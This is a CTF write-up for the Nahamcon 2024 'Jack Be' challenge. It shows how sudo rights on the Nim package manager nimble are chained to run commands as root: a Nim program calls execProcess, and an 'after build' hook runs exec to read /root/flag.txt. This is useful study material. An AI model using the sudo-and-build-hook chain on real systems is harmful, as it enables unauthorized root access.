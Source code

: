 # Nahamcon 2024 Challenge: Jack Be

This challenge from Nahamcon 2024 CTF is of topic category `misc` and focuses on privilege escalation within Linux (medium difficulty).
The challenge text was given as:
> Wow! Jack is trying to learn one of the hottest new programming languages!!
> And on top of that, he wants you to learn it too! He has given you access to his development box. So generous of him! He said, "just don't hack it, please."
> Escalate your privileges and retrieve the contents of the /root/flag.txt file. 

> `Password is "userpass"`
> `ssh -p 31468 user@challenge.nahamcon.com`

## Enumeration

After logging into the box, we are user `user`:

```console
$ whoami
user
```

Checking `sudo -l` shows that we can run a specific command as user `jack`:

```console
$ sudo -l
(jack) NOPASSWD: /usr/bin/nimble run
```

`nimble` is the default package manager for the programming language `nim` and allows to create, install, and run nim-based packages. Due to the challenge hints, it is quite likely, that this is our entry point to full privilege escalation.

## Exploitation

Since we can only run nimble packages as jack, our goal is to craft such a package whose code then allows us to execute further commands.   
There are generally two easy ways to let nimble execute arbitrary commands:

1) Create a nim program that itself executes system commands. An example is provided below:

```nim
import osproc

var result = execProcess("whoami")
echo result
```

2) Another option is, to execute system commands provided in the nimble package configuration file. This can be done by forcing nimble to run commands `before build` or `after build` with `exec`. An example is illustrated below:

``` bash
# other settings and package info
# ...

# before package is built
before build:
  echo "before build"
  exec "whoami"

# after package is built
after build:
  echo "after build"
  exec "whoami"
```

As we have the choice, we choose option one and create a package. Therefore, first, `nimble` can be used to set up a valid empty package with `nimble init`. To avoid any write permission issues later, a new folder within `/tmp` was chosen. Typically, one has to set a name, some description, and a type.   
After the package is created, one sees a nimble configuration file `[project name].nimble` and a `src` folder with a hello world nim source.   
Next, the source code has to be changed to our system command in nim. To verify the procedure, we choose the example code above.
Then the package can be build. It is no problem, that we can only run `run` as this indirectly invokes any needed build processes.

```console
$ cd /tmp/[project folder]
$ sudo -u jack /usr/bin/nimble run
...
...
jack
```
As expected, the compiled program is run after compilation as user `jack`. From here, another enumeration phase has to be started as we do not know what rights jack has. In principle, we could spawn an explicit shell to do so but will keep it simple here. Just running `sudo -l` for jack shows:
```
(root) NOPASSWD: /usr/bin/nimble install *
```

Apparently, `jack` can let nimble install packages as root. Unfortunately, `install` does not run a package, but only creates the binary. Hence, we have to create a second package for jack and use option two to run system commands.   
Again, within `/tmp` we create a new folder, initialize a new package and edit the configuration file to:

``` bash
# other settings and package info
# ...

# after package is built
after build:
  exec "cat /root/flag.txt"
```

At this point, the source code of package 2 does not matter anymore. However, since we are still `user` and avoided unnecessary reverse or spawned shell environments, we have to run `jack`'s command through an adjusted version of package one. An example for the package source is given below:

```nim
import osproc

var result = execProcess("cd /tmp/[project two] && sudo /usr/bin/nimble install --silent --accept")
echo result
```

The command first sets the working directory as the package folder and then runs our nimble install as root. Note, that after compilation, the configuration file triggers the actual system command.

After everything is set up, we only have to run the following commands as `user`:

```console
$ cd /tmp/[project one]
$ sudo -u jack /usr/bin/nimble run
...
... // package one is build and run as "jack"
... // when run, package one installs package two as "root"
... // after compilation, the system commands are run as "root"
flag{7e8aee...9776ada}
```

This chain of privileged executions of nimble led to arbitrary commands as root, without the need of spawned shells.